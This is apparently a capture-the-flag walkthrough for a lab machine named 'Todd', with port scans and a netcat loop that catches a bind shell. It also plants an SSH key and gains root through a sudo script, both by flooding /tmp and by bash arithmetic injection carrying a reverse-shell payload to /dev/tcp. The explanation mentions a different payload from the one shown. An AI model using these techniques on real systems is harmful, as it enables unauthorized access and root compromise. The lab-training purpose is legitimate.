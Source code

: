 ```yaml
---
title: 'Todd'
description: 'How to get flags on Todd machine'
pubDate: 'June 12 2025'
heroImage: '../../../assets/commands.png'
---
```


## Reconnaissance

### Initial Nmap Scan
```bash
$ nmap -sV -sC -p- 192.168.56.3 -A

PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp    open  http       Apache httpd 2.4.59 ((Debian))
2519/tcp  open  tcpwrapped
4470/tcp  open  tcpwrapped
...
```

### Second Nmap Scan Reveals Interesting Port
```bash
$ nmap -sV -p- 192.168.56.3
-----------
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp    open  http       Apache httpd 2.4.59 ((Debian))
7066/tcp  open  unknown
...
```

Note: Port 7066 appears intermittently.

## Initial Access via Port 7066

### Persistent Connection Attempt
```bash
$ while true;do nc 192.168.56.3 7066;done
(UNKNOWN) [192.168.56.3] 7066 (?) : Connection refused
(UNKNOWN) [192.168.56.3] 7066 (?) : Connection refused
whoami
todd
```

### Establishing SSH Access
1. Generate SSH key on attacker machine:
```bash
ssh-keygen -t rsa -f todd
```

2. On target machine:
```bash
mkdir -p /home/todd/.ssh
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCOd2qBPt87qsYOMlBoxpn6uTqyKwHLIXcNj8eO.... void-strike@athena" > /home/todd/.ssh/authorized_keys
```

3. Connect via SSH:
```bash
ssh todd@192.168.56.3 -i ~/.ssh/todd
```

## Privilege Escalation

### Checking Sudo Privileges
```bash
$ sudo -l
Matching Defaults entries for todd on todd:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User todd may run the following commands on todd:
    (ALL : ALL) NOPASSWD: /bin/bash /srv/guess_and_check.sh
    (ALL : ALL) NOPASSWD: /usr/bin/rm
    (ALL : ALL) NOPASSWD: /usr/sbin/reboot
```

### Analyzing guess_and_check.sh
```bash
# check this script used by human 
a=$((RANDOM%1000))
echo "Please Input [$a]"

echo "[+] Check this script used by human."
echo "[+] Please Input Correct Number:"
read -p ">>>" input_number

[[ $input_number -ne "$a" ]] && exit 1

sleep 0.2
true_file="/tmp/$((RANDOM%1000))"
sleep 1
false_file="/tmp/$((RANDOM%1000))"

[[ -f "$true_file" ]] && [[ ! -f "$false_file" ]] && cat /root/.cred || exit 2
```

### Method 1: File Creation Exploit
1. Create dummy files to increase probability:
```bash
for i in {1..600}; do touch /tmp/$i ;done
```

2. Run the script repeatedly until successful:
```bash
sudo /bin/bash /srv/guess_and_check.sh
```

### Method 2: Command Injection
1. Execute arbitrary commands through input:
```bash
Please Input [316]
[+] Check this script used by human.
[+] Please Input Correct Number:
>>>N[$(/bin/bash -i >& /dev/tcp/192.168.56.1/9001 0>&1)]
```

2. Set up listener:
```bash
nc -vlnp 9001
```

### Explanation of Command Injection
The input `N[$(cat /root/root.txt)]` is interpreted in an arithmetic context, causing Bash to attempt evaluating the flag contents as arithmetic, which fails and reveals the flag content in the error message.

## Root Access
Use the credentials from /root/.cred to switch to root:
```bash
su
Password: [content of /root/.cred]
root@todd:/home/todd#
```

Or via the reverse shell obtained through command injection.
